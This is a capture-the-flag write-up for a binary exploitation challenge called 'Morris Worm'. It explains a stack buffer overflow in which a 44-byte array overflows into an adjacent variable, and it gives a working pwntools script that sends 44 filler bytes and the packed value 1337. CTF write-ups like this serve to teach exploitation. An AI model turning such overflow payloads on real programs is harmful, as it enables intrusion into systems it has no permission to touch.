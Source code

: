 # Morris Worm
## Challenge
This challenge reads 1337 characters from **stdin** and stores them in an **array of chars**, it then checks if a variable is 1337 and if so we get the flag, the problem is that the value of the variable is 69 and it doesn't change.
The array of chars, however, is only **44 bytes long** and we can write more than that, so it is vulnerable to **buffer-overflow**, we just need to fill the array and then insert 1337 using [p32](https://docs.pwntools.com/en/stable/util/packing.html) to correctly **overwrite the variable**.

## Solution
```py
#!/usr/bin/env python3
from pwn import *

# Change this to remote if you want to run it on remote server
if args.REMOTE:
    r = remote('localhost', 1337) # change host and port
else:
    r = process('./pwn1')

PAYLOAD = b'A' * 44 + p32(1337)
r.recvuntil(b'?\n')
r.sendline(PAYLOAD + b'\x00')

r.interactive()
```

## Author
**Author**: [`@AlBovo`](https://github.com/AlBovo/) <br>
**Date**: 2024-07-19 <br>
**Category**: Binary Exploitation